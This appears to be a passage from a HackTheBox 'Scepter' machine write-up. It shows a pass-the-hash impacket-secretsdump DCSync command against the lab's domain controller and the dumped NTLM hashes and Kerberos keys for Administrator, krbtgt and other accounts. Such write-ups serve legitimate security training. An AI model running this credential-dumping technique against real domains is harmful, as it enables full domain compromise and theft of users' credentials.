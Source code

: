 
![](/images/HackTheBox/HTB-Scepter/Pasted_image_20250718164455.png)

```bash
┌──(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# impacket-secretsdump -dc-ip 10.10.11.65 scepter.htb/p.adams@dc01.scepter.htb -hashes ':1b925c524f447bb821a8789c4b118ce0' -just-dc
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a291ead3493f9773dc615e66c2ea21c4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c030fca580038cc8b1100ee37064a4a9:::
d.baker\d.baker:1106:aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce:::
scepter.htb\a.carter:1107:aad3b435b51404eeaad3b435b51404ee:2e24650b1e4f376fa574da438078d200:::
scepter.htb\h.brown:1108:aad3b435b51404eeaad3b435b51404ee:4ecf5242092c6fb8c360a08069c75a0c:::
scepter.htb\p.adams:1109:aad3b435b51404eeaad3b435b51404ee:1b925c524f447bb821a8789c4b118ce0:::
scepter.htb\e.lewis:2101:aad3b435b51404eeaad3b435b51404ee:628bf1914e9efe3ef3a7a6e7136f60f3:::
scepter.htb\o.scott:2102:aad3b435b51404eeaad3b435b51404ee:3a4a844d2175c90f7a48e77fa92fce04:::
scepter.htb\M.clark:2103:aad3b435b51404eeaad3b435b51404ee:8db1c7370a5e33541985b508ffa24ce5:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:0a4643c21fd6a17229b18ba639ccfd5f:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:cc5d676d45f8287aef2f1abcd65213d9575c86c54c9b1977935983e28348bcd5
Administrator:aes128-cts-hmac-sha1-96:bb557b22bad08c219ce7425f2fe0b70c
Administrator:des-cbc-md5:f79d45bf688aa238
krbtgt:aes256-cts-hmac-sha1-96:5d62c1b68af2bb009bb4875327edd5e4065ef2bf08e38c4ea0e609406d6279ee
krbtgt:aes128-cts-hmac-sha1-96:b9bc4dc299fe99a4e086bbf2110ad676
krbtgt:des-cbc-md5:57f8ef4f4c7f6245
d.baker\d.baker:aes256-cts-hmac-sha1-96:6adbc9de0cb3fb631434e513b1b282970fdc3ca089181991fb7036a05c6212fb
d.baker\d.baker:aes128-cts-hmac-sha1-96:eb3e28d1b99120b4f642419c99a7ac19
d.baker\d.baker:des-cbc-md5:2fce8a3426c8c2c1
scepter.htb\a.carter:aes256-cts-hmac-sha1-96:5a793dad7f782356cb6a741fe73ddd650ca054870f0c6d70fadcae162a389a71
scepter.htb\a.carter:aes128-cts-hmac-sha1-96:f7643849c000f5a7a6bd5c88c4724afd
scepter.htb\a.carter:des-cbc-md5:d607b098cb5e679b
```